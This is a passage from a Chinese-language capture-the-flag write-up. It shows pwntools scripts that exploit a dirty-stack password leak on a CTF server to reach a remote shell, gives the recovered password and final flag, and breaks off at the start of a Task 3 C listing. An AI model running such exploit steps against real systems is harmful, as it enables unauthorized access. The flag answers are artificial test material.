 换成 admin 再来一遍，得到正确密码：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("admin")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("A"*32)
p.interactive()
```

![image-20240707134354430](/Users/bruce/Library/Application Support/typora-user-images/image-20240707134354430.png)

输入正确密码，这时候根据给的代码，我们能进入远程的终端：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("admin")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("ILovePlayCTFbtwAlsoDota2!")
p.interactive()
```

![image-20240707134809312](/Users/bruce/Library/Application Support/typora-user-images/image-20240707134809312.png)

通过命令行，我们能找到后半部分 flag，以及 password.txt：

![image-20240707134852093](/Users/bruce/Library/Application Support/typora-user-images/image-20240707134852093.png)

前后拼接起来我们就可以得到最终的 flag：AAA{Oh_D1rTy_staCK_Ne3d_C1a4n}

## Task 3

代码如下：

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>

#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <errno.h>

#define MAP_ADDR (0x14000)
#define CODE_SIZE (0x100)

void prepare()
```